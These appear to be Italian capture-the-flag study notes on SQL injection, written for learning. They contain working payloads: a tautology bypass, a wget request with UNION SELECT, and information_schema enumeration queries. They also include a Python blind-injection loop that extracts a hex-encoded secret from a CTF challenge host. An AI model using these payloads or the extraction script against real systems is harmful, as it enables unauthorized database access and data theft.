 
*   **SQL Injection**
    
    *   **SQL Injection** (normale)
        
        *   Per riconoscerla provo caratteri speciali **‘ \\ “ \`** (backquote, altgr + ‘) - se crasha →
        
            " or 1=1 -- '
            # 1=1 per riportare almeno un risultato - ci puoi mettere quello che ti pare
            
            #wget per sqlinjection
            wget "http://target.com/page.php?id=1 UNION SELECT null,version()-- -"
        
    
    *   **UNION SQL Injection**
        
            #Verifico versione sql per vedere che tipo è (per mysql è:)
            union select 1,2, ..., version() 
            
            #Per conoscere nome colonne e nome table in mysql:
            ' union select 1,2,..., table_name from information_schema.tables -- '
            ' union select 1,2,table_name, column_name from information_schema.columns -- '
            
            #Nota: entrambe le query devono avere lo stesso numero di colonne e lo stesso tipo di dato
        
    
    *   **Blind SQL Injection**
        
        *   No output completo della query, ma solo informazioni sul fatto che sia abbia avuto successo o sia fallita.
        
        *   (SELECT 1 WHERE 1=1)='1 per verificare che funzioni il true/false (dovrebbe restituire true)
        
        *   Se non si conoscono i caratteri specifici che possono comparire nel dato da ricostruire, può essere utile istruire il database a codificarlo in formato esadecimale. In questo modo il numero di caratteri da testare si riduce a sedici, appartenenti all'alfabeto noto composto dalle cifre da 0 a 9 e le prime sei lettere dell'alfabeto.
        
        *   The `LIKE` operator is used in a `WHERE` clause to search for a specified pattern in a column. % rappresenta singoli caratteri
        
            #esempio si cerca un qualsiasi elemento che cominci con guess
            1' AND (SELECT 1 FROM secret WHERE HEX(asecret) LIKE 'guess%')='1
            #questo si fa a ripetizione con il codice python sotto:
            
            inj = Inj('http://web-17.challs.olicyber.it')
            
            dictionary = '0123456789abcdef'
            result = ''
            
            while True:
                for c in dictionary:
                    question = f"1' and (select 1 from secret where HEX(asecret) LIKE '{result+c}%')='1"
                    response, error = inj.blind(question)
                    print(response)
                    if response == 'Success': # We have a match!
                        result += c
                        break
                else:
                    break
            print('Result:', result)
        